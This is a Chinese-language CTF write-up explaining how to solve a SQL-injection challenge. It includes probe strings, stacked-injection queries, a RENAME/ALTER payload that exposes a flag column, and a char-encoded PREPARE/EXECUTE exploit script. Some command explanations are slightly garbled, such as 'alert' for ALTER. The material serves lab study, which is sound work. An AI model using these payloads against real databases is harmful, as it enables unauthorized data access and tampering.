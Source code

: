 

sql注入拿到题目都先尝试各种操作，观察有什么字段被过滤，快速的判断可以使用什么注入方式。

常见的尝试字段有：

```python
1'
1'or'1'='1
1'||'1'='1
1'order by 2--+  //采用二分查找法
1'union select null--+
1'sleep(3)--+
```

1.1 1

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/A07C8B31C29A4BCF84A226556BB6DBB6clipboard.png)

1.2 1'

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/8B54CEDB94AC4869B59DC282039C4294clipboard.png)

1.3 1'union select null--+

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/6C084402800441A9A94E0DE042589391clipboard.png)

过滤了select和.

这种强力过滤，无法进行跨表查询，此时考虑堆叠注入



1.4 1';show databases;#

查询出了数据库名

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/872F5B32B7CE47EE81FB508B11665EB5clipboard.png)



1.5 1';show tables;#

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2DB1AE9711544365888F76E9CACE42E1clipboard.png)



1.6 查看表名为数字的的表含有什么字段

1';show columns from 1919810931114514;#

222';show columns from words;#



1.7确定words表为默认查询表，1919810931114514表中含有flag字段。过滤中没有过滤rename和alert.

此时可以采取思路：

先更改words表为words1，再更改1919810931114514表，表名为words。再将1919810931114514表的flag字段改为id。此时直接网页查询即可出现flag。



1.8采用一个大佬的payload:

```python
/?inject=1';RENAME TABLE `words` TO `words1`;
RENAME TABLE `1919810931114514` TO `words`;
ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) CHARACTER SET utf8 COLLATE utf8_general_ci NOT NULL;
show columns from words;#
```



首先了解一下rename和alter



1.8.1rename 用于修改表名，

```python
命令格式：rename 原表名 to 新表名；
```

列如更改：myclass的表名为youclass

```python
rename myclass to youclass;
```



1.8.2 alert用于修改字段，还可对字段进行删除，增加操作。

```python
命令格式：alert TABLE 'tableName' CHANGE 'flag' 'id' VARCHAR(100)
```



1.9payload之后表名和字段就已经更改了

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/4E05DB59700F45A39D61A3CA200DEE3Bclipboard.png)



1.10 提交 1‘or'1,查询所有字段内容即可查出答案

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/096DC3BF9C674FBE82EF1074527E8D5Cclipboard.png)



2.另外的思路：

chr没有过滤。

也可以采用常规思路，将所有注入的字段转换为ascii

附个大佬们的exp

https://skysec.top/2019/05/25/2019-%E5%BC%BA%E7%BD%91%E6%9D%AFonline-Web-Writeup/#%E9%9A%8F%E4%BE%BF%E6%B3%A8

```python
payload = "0';set @s=concat(%s);PREPARE a FROM @s;EXECUTE a;"
exp = 'select group_concat(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()'
# exp = "select group_concat(COLUMN_NAME) from information_schema.COLUMNS where TABLE_NAME='1919810931114514'"
# exp = "select flag from `1919810931114514`"
res = ''
for i in exp:
	res += "char(%s),"%(ord(i))
my_payload = payload%(res[:-1])
print my_payload
```



